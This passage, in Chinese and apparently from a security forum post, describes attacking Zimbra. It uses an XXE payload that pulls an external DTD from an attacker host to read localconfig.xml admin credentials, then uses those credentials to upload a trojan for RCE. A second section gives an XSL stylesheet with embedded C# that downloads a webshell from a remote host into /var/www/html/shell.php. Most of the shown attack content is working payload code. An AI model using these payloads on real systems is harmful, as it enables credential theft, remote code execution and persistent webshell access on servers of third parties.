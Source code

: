 ![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-aef7ab441739190f2709649a9bd3f6af8e4fc418.png)

4、Zimbra为SOAP通信设置了一个全局管理员，用户名为“zimbra”，并随机生成密码。这些信息均存储在名为localconfig.xml的本地文件中。在某些条件下可以使用此类凭证，通过/service/extension/clientUploader/upload接口上传木马文件RCE。但是存在权限设置，通过管理端口才能发起请求，默认情况下端口是7071。

5、我们首先利用XXE读取localconfig.xml的本地文件，在Java环境的那我们可以使用CDATA读取，来绕过字符限制。

dtd文件

```php
<?xml version="1.0" encoding="UTF-8"?>  <!ENTITY all "%start;%goodies;%end;">
```

payload

```php
   
<!ENTITY % goodies SYSTEM "file:../conf/localconfig.xml">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://attackip/12.dtd"> 
%dtd; ]> 
<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a">
    <Request>
        <EMailAddress>aaaaa</EMailAddress>
        <AcceptableResponseSchema>&all;</AcceptableResponseSchema>
    </Request>
</Autodiscover>
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-8927efbf73da0e5dd921f912ab7fa27ba82d3cac.png)

2.6、XXE写shell
-------------

当服务器支持XSL（可扩展样式表语言）时，就可以利用XXE漏洞来执行任意代码。在XML文档中引用一个恶意的XSL样式表，这个样式表可以包含任意的XSL命令，如&lt;xsl:value-of select="php:function('shell\_exec', 'your command here')"/&gt;。当服务器解析这个XML文档时，它将尝试应用这个XSL样式表，从而执行任意代码。

```php
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">
<msxsl:script language="C#" implements-prefix="user">
<![CDATA[
public string xml()
{
    System.Net.WebClient webClient = new System.Net.WebClient();
    webClient.DownloadFile("https://x.x.x.x/shell.txt",
                   @"/var/www/html/shell.php");
return "Exploit Success";
}
]]>
</msxsl:script>
<xsl:template match="/">
<xsl:value-of select="user:xml()"/>
</xsl:template>
</xsl:stylesheet>
```
